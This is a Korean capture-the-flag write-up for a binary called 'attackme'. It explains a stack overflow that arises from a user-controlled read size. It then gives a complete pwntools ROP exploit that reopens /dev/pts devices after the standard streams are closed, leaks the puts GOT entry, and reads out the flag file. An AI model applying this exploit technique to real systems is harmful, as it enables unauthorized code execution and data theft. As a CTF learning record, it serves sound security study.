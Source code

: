 # 문제
***

attackme 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
FORTIFY:  Enabled
```

file 명령어의 결과는 다음과 같다.
```
attackme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a0620e5b122fd043e5a40e181f3f3adf29e6f4c1, stripped
```

바이너리 코드

__main()__ 
```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
    char v4; // [rbp-30h]
    ...
    sub_400986(byte_601040,0x80);   // fgets(byte_601040,0x80,stdin); "\x0a" NULL로 replace
    ...
    _printf_chk(1,"Input offset: ");
    v6 = sub_4009DB();  // fgets(&nptr,0x20,stdin); return atoi(&nptr);
    _printf_chk(1,"Input size: ");
    v5 = sub_4009DB();
    sub_4008FD(&v4,byte_601040,v6,v5);
    sub_4008D8();   // close(0); close(1); close(2)
}
```

__sub_4008FD()__
```
int __fastcall sub_4008FD(void *a1, const char *a2, __off_t a3, __int64 a4)
{
    offset = a3;
    nbytes = a4;
    fd = open(a1,0);
    if (fd == -1)
        return;
    lseek(fd,offset,0);
    if(read(fd,a1,nbytes) > 0 )
        puts("Load file complete!");
    return close(fd);
}
```

__sub_4008FD()__ 함수에서 nbytes 값을 내 마음대로 설정할 수 있기 때문에 bof를 통해서 main 함수의 ret를 overwrite할 수 있다.
하지만 __sub_4008D8()__ 함수에서 stdin, stdout, stderr 를 모두 close() 하기 때문에 입출력 파일을 다시 open 해줘야 한다. <br/><br/>

심볼릭 링크 관계 : /dev/stdin -> /proc/self/fd/0 -> /dev/pts/숫자 <br/><br/>

즉, 프로세스의 입력은 /dev/pts/숫자 파일을 통해서 처리된다. 따라서 /dev/stdin, /proc/self/fd/0, /dev/pts/숫자 중 하나의 파일을 open 하고 해당 파일 디스크립터를 read 함수의 인자로 넣어주면 ```read(0,buf,size)``` 와 동일한 동작을 수행한다.  <br/><br/>

/proc/self/fd/1 과 /proc/self/fd/2도 /proc/self/fd/0과 동일한 /dev/pts/숫자 파일에 심볼릭 링크되어 있다.  <br/><br/>
그런데 pwntools의 process를 이용하면 /proc/self/fd/0 가 pipe에 심볼릭 링크되어 있다. (/proc/self/fd/1, /proc/self/fd/2는 /dev/pts/숫자 파일에 심볼릭 링크 걸려있음)  <br/><br/>즉, process 함수로 생성된 객체는 프로세스와 pipe를 통해서 입력을 준다.  <br/><br/>이는 process의 stdin default 옵션이 pipe여서 그렇다. (stdin 옵션을 PTY로 바꾸면 /dev/pts 를 통해서 입력을 준다.)   <br/><br/> 그리고 daemon으로 돌고 있는 경우 /proc/self/fd/0 ~ 2 은 socket에 링크되어 있다.   <br/><br/>


나는 그냥 flag만 읽는 것으로 payload를 구성했다. (사실 뭔가 원래 문제에서는 /proc/self/fd/0 ~1의 심볼릭 링크에 대해서 따로 처리를 해준 것 같다. 그게 아니면 /dev/pts/숫자를 open 한다고 해서 출력 결과가 나한테 올 것 같지가 않다. remote 환경에서는 1번이 socket에 링크되어 있으므로... => 아마도 socket이 /dev/pts/숫자에 링크되어 있는듯...)

## exploit 방법
1. /dev/stdin 파일을 open하고 read 함으로써 bof를 발생시킨다. 
2. ROPgadget을 구성 
   - /dev/pts/숫자 파일을 두 번 open한다.
   - 프로세스에 해당하는 /dev/pts/숫자를 open했으면 문자열 출력하도록 한다. (잘못된 파일을 open하면 출력되지 않고, 이 경우에는 process를 close 한다.)
   - flag 파일을 open하고 bss_section에 flag 파일을 read한다. 마지막으로 flag 내용이 쓰여진 bss_section을 출력한다.
3. 프로세스에 해당하는 /dev/pts/숫자를 찾을 때까지 1 -2를 반복한다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path = "/home/sungyun/round3/load/attackme"

puts_plt=0x4006c0
puts_got=0x600fa0
prdi=0x0000000000400a73
prsip=0x0000000000400a71
open_plt=0x0000000000400710
bss_sec=0x6011b0
pts_path=0x601040+0x10
read_plt=0x4006e8

num=0

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

while(1):

	p=process(file_path)
	#num=raw_input()
	#num=num[:-1]
	p.recvuntil("name: ")
	file_name = "/dev/pts/"+str(num)
	#file_name="/dev/pts/"+num
	p.sendline("/dev/stdin"+"\x00"+"AAAAA"+file_name+"\x00"+"flag"+"\x00")
	p.recvuntil("offset: ")
	p.sendline("0")
	p.recvuntil("size: ")

	pay="A"*0x30
	pay+=p64(pts_path+0x30+8)
	pay+=p64(prdi)
	pay+=p64(pts_path)
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open fd 0
	pay+=p64(prdi)
	pay+=p64(pts_path)
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open fd 1

	pay+=p64(prdi)		#puts_got leak
	pay+=p64(puts_got)
	pay+=p64(puts_plt)

	pay+=p64(prdi)
	pay+=p64(pts_path+10+len(str(num)))
	pay+=p64(prsip)
	pay+=p64(2)
	pay+="A"*8
	pay+=p64(open_plt)	# open flag

	pay+=p64(prdi)
	pay+=p64(2)
	pay+=p64(prsip)
	pay+=p64(bss_sec)
	pay+="A"*8
	pay+=p64(read_plt)	# read flag

	pay+=p64(prdi)
	pay+=p64(bss_sec)
	pay+=p64(puts_plt)	# puts flag

        p.sendline(str(len(pay)))
        time.sleep(0.1)

	p.send(pay)
	#p.recvuntil("complete!\n",timeout=0.5)		# 처음에 open하는 파일을 /dev/pts/숫자로 한 경우 잘못된 숫자를 넣으면 attackme 프로세스가 read에서 계속 머물러 있기 때문에 timeout을 해줘야한다.
	p.recvuntil("complete!\n")  # /dev/stdin을 open한 경우
	try:
		puts=p.recvline()
		puts=puts[::-1]
		puts=puts[1:]
		puts=int(puts.encode('hex'),16)
		break
	except:
		p.close()
	num = num + 1

print p.recvline()
```

# 알게 된 것
***
- /dev/tty : 현재 콘솔 장치, 현재 콘솔 세션을 의미 (사용자의 터미널을 의미)
- /dev/pts : SSH 접속 콘솔 장치 (원격 터미널 환경)
- /usr/bin/tty : 터미널 확인 리눅스 명령어 (표준 입력에 접속된 터미널 장치 파일명 출력)
